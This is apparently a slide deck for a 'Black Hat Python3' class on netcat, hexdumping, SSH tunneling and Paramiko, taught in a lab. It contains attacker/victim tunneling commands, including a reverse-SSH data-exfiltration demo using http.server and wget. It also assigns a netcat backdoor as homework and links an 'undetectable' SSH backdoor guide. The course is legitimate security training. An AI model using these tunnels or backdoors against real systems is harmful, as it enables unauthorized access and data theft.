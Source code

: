 ## Welcome to class 8!

### Black Hat Python3 

### Raleigh ISSA

---

## Github repo

https://github.com/tiarno/bhp3_class

---

## Summary from last class

- building images from packet capture streams
- tcp/udp clients and servers
- starting a pure-python netcat clone

---

## Netcat

`netcat.py`

---

## Hexdump

```python
          1         2
012345678901234567890123456789
 Black Hat Python, Raleigh ISSA
:Black Hat :
s = 'Black Hat '
hexa = ' '.join(['%04X' % ord(x) for x in s])

0042 006C 0061 0063 006B 0020 0048 0061 0074 0020

text = ''.join([x if 32 <= ord(x) < 127 else '.' for x in s])

'Black Hat '
```

---

## Writing Bytes

- `hexdumper.py`

---

## SSH 

```
ssh -l testuser 192.168.1.104

ssh -f tim@secretz.com cat secretdata | print
```

---

## SSH Tunneling

Local Port Forwarding

*Syntax*
- local interface, local port:remote host, remote port
- local=attacker remote=victim

```
ssh -L [bind_address:]port:host:hostport

ssh -L localhost:9000:boodelyboo.com:80 testuser@192.168.1.104

```

---

## Basic Tunnel

![sshimage](./images/ssh_tunnel.png)


---

## Tunneling Out

![sshoutimage](./images/ssh_tunnel_out.png)

---

## Demo

- server = victim/kali, client = attacker/mac
- server: `netstat -tcp -c` #just for watching 
- client: `ssh -L localhost:9000:192.168.1.104:21 testuser@192.168.1.104`
- client: `python ftpclient.py 127.0.0.1 9000 testuser`

---

## Restricted Port?

![sshinimage](./images/ssh_tunnel_in.png)

---

## Mind bending RSSH

- start remote port forwarding on victim server
- connect to specified port from attacker machine
- profit

---

## Reverse SSH

- Mac: victim
    ```python
    python -m http.server # Data exfiltration

    ssh -l testuser -R 192.168.1.104:3000:localhost:8000 192.168.1.104
    ```
- kali: attacker
    ```python
    wget localhost:3000
    ```

---

## SSH Options

- `-f ` run in background
- `-l username` login with name username
- `-N ` do not exec a command. Port forwarding only
- `-T` do not start up a terminal


---

## SSH (paramiko) Client

- `paramiko_demo.py`

---

## Paramiko Tools


- https://github.com/paramiko/paramiko
- https://resources.infosecinstitute.com/creating-undetectable-custom-ssh-backdoor-python-z/


---

## Your Job

- Finish out your `netcat.py` backdoor
- Study SSH and tunneling
- Recreate ssh with Paramiko

---

## Reading

- ssh tunnel https://www.linuxjournal.com/article/5462
- reverse ssh https://www.bogotobogo.com/Linux/linux_Secure_Shell_SSH_V_ssh_Reverse_SSH_Tunnel_Remote_Port_Forwarding.php

---

## BHP3_class

- github repo
- python package
- discord channel

---

## What we did: Hacking

 - website enumeration
 - password bruteforcing
 - constructed and parsed IP and ICMP headers
 - built UDP network scanner
 - scapy packet analysis and graphics
 - scapy arp poison and dns spoofing
 - netcat tcp client/server app
 - ssh tunneling and paramiko

---

## What we did: Python

- os.walk, lxml
- lists, queues
- threads, processes
- strings, bytes
- try/except/else/finally
- context managers
- sockets
- parse packet headers
- scapy
- named tuple

---

## Things to Remember

- keep your namespaces clean
- be thoughtful about what you name things
- be biased toward simplicity
- solve the problem and no more

---

## Feedback please!

- tim@reachtim.com
- discord: https://discord.gg/WR23qUj

 